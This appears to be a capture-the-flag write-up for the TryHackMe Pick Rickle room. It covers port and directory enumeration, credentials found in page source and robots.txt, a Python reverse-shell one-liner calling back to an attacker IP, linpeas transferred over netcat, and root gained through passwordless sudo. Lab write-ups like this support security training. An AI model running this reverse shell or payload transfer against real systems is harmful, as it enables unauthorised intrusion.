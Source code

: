 # IP
https://tryhackme.com/room/picklerick
```
export IP=
```

# NMAP
```
mkdir nmap
nmap -sC -sV -oN nmap/initial $IP
```
* `-sC` - Use default script
* `-sV` - Probe open ports to determine service/version info
* `-oN` - Output scan in normal mode

# View Page Source
```
Username: R1ckRul3s
```
# Gobuster
```
gobuster dir -u "http://$IP" -w /opt/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py
```
# enum4linux
Trying to find username and password
```
/opt/enum4linx/enum4linx.pl -a $IP | tee enum4linux.log
```
Found a `robots.txt` page. In that page there was a:
```
Wubbalubbadubdub
```

There is a `login.php` page. We can login using the following credentials:
```
R1ckRul3s
Wubbalubbadubdub
```

From here we have a command prompt. Was able to find the first password using:
```
grep "" *.txt
```

```
python3 -c 'import socket,subprocess,os;ip="10.2.44.85";port=9999;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((ip,port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
nc -lnvp 9999
```

target terminal:
```
python3 -c 'import pty; pty.spawn("/bin/bash")' && 
stty raw -echo
export TERM=xterm
```


# Linpeas
target terminal:
```
nc -l -p 1234 > /tmp/jake &
```

my terminal:
```
nc $IP $PORT < linpeas.sh
```

Finally, run:
```
chmod +x /tmp/jake
/tmp/jake
```

```
User www-data may run the following commands on ip-10-10-13-18.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL

[+] Checking sudo tokens
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
/proc/sys/kernel/yama/ptrace_scope is not enabled (1)
gdb wasn't found in PATH

[+] Checking /etc/doas.conf
/etc/doas.conf Not Found

[+] Checking Pkexec policy
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe#pe-method-2

[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin

[+] Do not forget to test 'su' as any other user with shell: without password and with their names as password (I can't do it...)
[+] Do not forget to execute 'sudo -l' without password or with valid password (if you know it)!!

[+] Superusers
root:x:0:0:root:/root:/bin/bash

[+] Users with console
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
```

So we can run:
```
sudo bash
```

To login as root and get final flag
